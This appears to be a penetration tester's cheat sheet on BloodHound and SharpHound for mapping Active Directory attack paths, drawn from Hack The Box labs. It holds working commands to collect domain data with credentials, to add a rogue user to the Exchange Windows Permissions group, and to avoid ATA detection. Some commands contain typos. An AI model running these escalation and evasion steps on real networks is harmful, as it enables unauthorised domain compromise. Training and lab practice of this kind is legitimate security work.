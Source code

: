 -   Run `sudo neo4j console`, which opens the `neo4j` web interface
-   Log in at `http://127.0.0.1:7474/` with username/password “neo4j”/”neo4j”. You’ll have to change your password on login. Close the window (but don’t exit `neo4j` in the console).
-   Run `bloodhound` from a new terminal window. Log in with the creds you just set
-   Click on the “Upload Data” button or Drag n Drop the zip file.

[Usage](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux#sharphound)

- "Show Path from owned principles" slected and right click on link betweem them to get info for abuse

> Account Operators has Generic All privilege on the Exchange Windows Permissions group

- Before Doing any exploitation make your own user account from current privilege account
	```
	# add user
	net user x3rz x3rz@123 /add /domain
	# list users
	net users
	# put our user to excahnge windows permissions
	net group "Exchange Windows Permissions"
	net group "Exchainge Windows Pemissions" /add x3rz
	```


#### Bloodhound-python Ingestors
We can use this tool to remotly gather all the data out of victim box.
```bash
# Syntax
bloodhound-python -d htb.local -u username@domain -p [Password] -gc [DC_domain] -c all -ns IP -v

# Example
bloodhound-python -d htb.local -u svc-alfresco@htb.local -p s3rvice -gc forest.htb.local -c all -ns 10.10.10.161 -v
```

#### Usage on Powershell
```
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

# Credential based
Invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice

# exe version
./SharpHound.exe --collectionmethods All --domain htb.local --ldapusername svc-alfresco --ldappassword s3rvice --zipfilename loot.zip
```


#### Commands
```powershell
# Wild SharpHound
Invoke-BloodHound -CollectionMethod All

# To avoid detections like ATA
Invoke-BloodHound -CollecctionMethod All -ExcludeDC
```


1. Find All Domain Admins
2. Find shortest path to Domain Admin
3. If you have user pawned already then you could find short path to any other system or system admin

